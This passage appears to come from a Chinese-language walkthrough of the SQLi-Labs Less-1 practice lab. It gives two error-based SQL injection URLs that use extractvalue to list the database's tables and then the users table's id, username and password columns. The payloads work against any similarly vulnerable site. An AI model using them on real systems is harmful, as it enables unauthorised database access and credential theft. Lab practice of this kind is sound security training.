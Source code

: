 ![image-20240820184345026](assets/image-20240820184345026.png)

- 获取表名(emails,referers,uagents,users)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
```

![image-20240820184921277](assets/image-20240820184921277.png)

- 获取字段名(id,username,password)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```

![image-20240820194718757](assets/image-20240820194718757.png)
